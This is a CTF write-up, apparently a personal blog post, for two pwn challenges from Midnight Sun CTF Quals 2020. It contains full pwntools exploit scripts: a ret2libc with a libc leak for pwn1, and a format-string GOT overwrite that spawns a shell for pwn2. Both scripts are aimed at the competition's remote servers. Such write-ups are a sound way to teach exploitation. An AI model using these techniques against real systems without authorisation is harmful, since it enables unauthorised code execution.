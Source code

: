 ```yaml
---
title: Midnight Sun CTF Quals 2020 - Pwn Writeups
summary: 
date: "2020-04-04T00:00:00Z"

reading_time: true  # Show estimated reading time?
share: true  # Show social sharing links?
profile: true  # Show author profile?
comments: true  # Show comments?
# Optional header image (relative to `static/img/` folder).
header:
  caption: ""
  image: ""
---
```

# **pwn1(70pts)** #

![TASK](https://imgur.com/4fbyzFx.png)

It was a ret2libc task , but we had firstly to leak the libc base address using BOF (i leaked it through printf address) than we will return to main and perform our ret2 System :D
here is my exploit, if you have any questions you can contact me on twitter @BelkahlaAhmed1 

```python

from pwn import *
p=remote("pwn1-01.play.midnightsunctf.se",10001)
#p=process("./pwn1")
OFFSET=cyclic(72)
POP_RDI_RET=p64(0x0000000000400783)
PUTS=p64(0x0000000000400550)
LEAK=p64(0x602020)
MAIN=p64(0x400698)
payload=OFFSET+POP_RDI_RET+LEAK+PUTS+MAIN
log.info("Payload Crafted")
p.recvuntil("buffer:")
log.info("Sending payload")
#raw_input("attach")
p.sendline(payload) 
data=p.recvline().strip()
leak=u64(data.ljust(8,"\x00"))
BASE_LIBC=leak-0x64e80       # local 0x54a20 
log.info("leaked libc base: "+hex(BASE_LIBC))
p.recvuntil("buffer:")
#BINSH=p64(BASELIBC+0x183cee)
#SYSTEM=p64(BASELIBC+0x46ed0)
RET=p64(0x0000000000400536)  
SYSTEM=p64(BASE_LIBC+0x4f440)
BINSH=p64(BASE_LIBC+0x1b3e9a)
payload=OFFSET+RET+POP_RDI_RET+BINSH+SYSTEM
p.sendline(payload)
p.interactive()
```
**NOTE:** Check Task files ** [HERE](https://github.com/kahla-sec/CTF-Writeups/tree/master/Midnight%20Sun%20CTF%202020%20Quals/pwn1) ** 

# **pwn2(80pts)** #

![TASK](https://imgur.com/lYjuGsS.png)

It was a really fun task , we had a format string vulnerability , so firstly i overwrited the GOT entry of the exit function with main address so we have now an infinite loop and the program will never exit , than using format string we leak the libc base address and than we overwrite the GOT entry of printf with the address of system :D 
Here is my exploit , if you have any questions you can contact me o twitter @BelkahlaAhmed1 

```python

from pwn import *
def extract(add,n):
        p1="0x"+add[-4:]
        p2=add[:6]
        if n==1:
                return p1
        if n==2:
                return p2
def pad(payload):
        return payload+"X"*(63-len(payload))
#p=process("./pwn2")
p=remote("pwn2-01.play.midnightsunctf.se",10002)
p.recvuntil("input:")
EXITGOT=p32(0x804b020)
EXITGOT2=p32(0x804b020+2)
'''
s=""
for i in range(27,34):
        s+="%"+str(i)+"$p "
'''
payload=EXITGOT+EXITGOT2
payload+="%2044x%8$hn%32231x%7$hn"
#raw_input("attach")
p.sendline(pad(payload))
p.recvuntil("input:")
p.sendline(pad("%30$x"))
data=p.recvuntil("X")
printf=int("0x"+data[-9:-1],16)-5
LIBCBASE=printf-0x50b60
log.info("Leaked Libc Base : "+hex(LIBCBASE))
p.recvuntil("input:")
PRINTFGOT=p32(0x804b00c)
PRINTFGOT2=p32(0x804b00c+2)
SYSTEM=LIBCBASE+0x3cd10
log.info("System address: "+hex(SYSTEM))
payload=PRINTFGOT
payload+=PRINTFGOT2
p1=int(extract(hex(SYSTEM),1),16)
p2=int(extract(hex(SYSTEM),2),16)
log.info("P1: "+str(p1-8)+" P2: "+str(p2-p1))
payload+="%"+str(p1-8)+"x%7$hn%"+str(p2-p1)+"x%8$hn"
log.info("Payload crafted")
p.sendline(pad(payload))
p.recvuntil("input:")
p.sendline("/bin/sh")
p.interactive()

#Main address 0x80485eb
# 7 stack adress

```

**NOTE:** Task files **[HERE](https://github.com/kahla-sec/CTF-Writeups/tree/master/Midnight%20Sun%20CTF%202020%20Quals/pwn2)**

These tasks were really fun, i'm sorry for the lack of details because i'm really busy this period :( 
